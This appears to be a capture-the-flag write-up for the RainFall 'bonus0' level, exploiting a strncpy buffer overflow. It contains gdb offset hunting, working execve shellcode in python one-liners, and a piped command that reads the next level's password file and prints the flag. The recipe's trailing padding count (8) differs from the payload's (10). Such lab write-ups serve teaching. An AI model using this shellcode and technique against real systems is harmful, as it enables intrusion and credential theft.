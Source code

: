 ## BONUS 0

Ressources:
- [Disassembled code](disassembled_code.md)
- [Source code](srcs/bonus0.c)

*I recommend to read the resources before you start to read the solution.*

To solve this level we will use a `strncpy()` special feature.

``` shell
Note that it does not NUL terminate chararray because the length of the source string is
     greater than or equal to the length argument.

[...]

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables malicious users to
     arbitrarily change a running program's functionality through a buffer overflow attack.
```

That's means that if we give a string with a length greater than the length of the destination string, strncpy() gonna return a string not NULL terminated. Let's try by ourselves.

```shell
bonus0@RainFall:~$ ./bonus0
 -
012345678901234567890123456789
 -
Hey
01234567890123456789Hey Hey
```

Since the first string doesn't end with a NULL character, strcpy() doesn't know when to stop. So we can try to overflow the destination string.

```shell
bonus0@RainFall:~$ ./bonus0
 -
012345678901234567890123456789
 -
01234567890123456789
0123456789012345678901234567890123456789�� 01234567890123456789��
Segmentation fault (core dumped)
```

Perfect, the main buffer is 42 bytes long but we can write 61 characters. We can then inject a **ShellCode** in the first `read()` call, then change the return value in the second by a **Buffer Overflow**.

To do that we need to create a ShellCode, find the EIP and the address where the ShellCode will be stored.

---

#### EIP

```shell
bonus0@RainFall:~$ gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
012345678901234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

The EIP offset is at **9**.

---

#### Buffer address

```shell
bonus0@RainFall:~$ gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b *0x080485c5
Breakpoint 1 at 0x80485c5
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAA[...]AAAAAAAAA
 -
A
AAAAAAAAAAAAAAAAAAAAA A

Breakpoint 1, 0x080485c5 in main ()
(gdb) x/32x $esp - 0x1008
0xbfffe6a8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6b8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6c8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6d8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6e8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6f8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe708:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe718:	0x00614141	0x00000000	0x00000000	0x00000000
```

Perfect we can now use one of these addresses as the address of our ShellCode.

ShellCode address -> `0xbfffe6c8`

---

### Payload

Now we have everything we need to create a payload. You can find below the recipe.

`First input -> 'x * NOOP' + 'ShellCode'`

`Second input -> '9 * Offset_Character' + 'ShellCode address' + '8 * Offset_Character'`

#### *Why 8 characters at the end ?*

*Because this string will be copied twice, the first time to fill the buffer then to overflow the buffer. Our EIP has been found with a second input of size 20, so our input must be size 20 too.*

We can know create our own payload.

`python -c 'print "\x90" * 200 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' > /tmp/payload_1`

`python -c 'print("\x42" * 9 + "\xc8\xe6\xff\xbf" + "\x42"*10)' > /tmp/payload_2`

Perfect, we just have to inject the payload into the program.

```shell
bonus0@RainFall:~$ (cat /tmp/payload_1; cat /tmp/payload_2; echo "cat /home/user/bonus1/.pass") | ./bonus0
 -
 -
��������������������BBBBBBBBB����BBBBBBB�� BBBBBBBBB����BBBBBBB��
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
